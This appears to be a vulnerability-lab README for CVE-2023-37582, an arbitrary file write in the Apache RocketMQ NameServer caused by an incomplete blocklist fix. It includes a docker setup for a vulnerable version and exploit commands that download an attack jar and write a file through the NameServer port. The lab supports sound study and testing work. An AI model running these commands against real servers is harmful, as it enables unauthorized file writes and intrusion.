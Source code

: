 # Apache RocketMQ NameServer Arbitrary File Write Vulnerability (CVE-2023-37582)

[中文版本(Chinese version)](README.zh-cn.md)

Apache RocketMQ is a distributed messaging and streaming platform with low latency, high performance and reliability, trillion-level capacity and flexible scalability.

In RocketMQ versions 5.1.1 and below, there exists an arbitrary file write vulnerability in the NameServer component. The vulnerability exists in the configuration update functionality of RocketMQ's NameServer component. By sending an `UPDATE_NAMESRV_CONFIG` command to the NameServer, an attacker can modify the `configStorePath` configuration item and its content, leading to arbitrary file write.

This vulnerability arises from an incomplete fix for [CVE-2023-33246](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-33246). In addressing CVE-2023-33246, the official team established a blocklist of configuration items that cannot be modified. However, the patch mistakenly designated the blocklist as `configStorePathName`, when it should have been `configStorePath`, leading to this outcome.

References:

- <https://github.com/apache/rocketmq/pull/6843>
- <https://drun1baby.top/2023/11/21/CVE-2023-37582-Apache-RocketMQ-RCE-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>
- <https://github.com/Malayke/CVE-2023-37582_EXPLOIT>

## Vulnerable Environment

Execute the following command to start a RocketMQ NameServer 5.1.0:

```shell
docker compose up -d
```

After the environment is started, the RocketMQ NameServer will listen on port 9876.

## Exploit

Use this simple [exploit project](https://github.com/vulhub/rocketmq-attack) to reproduce the vulnerability and write arbitrary file.

```shell
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.1/rocketmq-attack-1.1-SNAPSHOT.jar
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target your-ip:9876 --path "/tmp/success" --content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```

After execution, you can verify that the file has been written successfully:

```shell
cat /tmp/success
```

The content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" should be present in the file.

![](1.png)
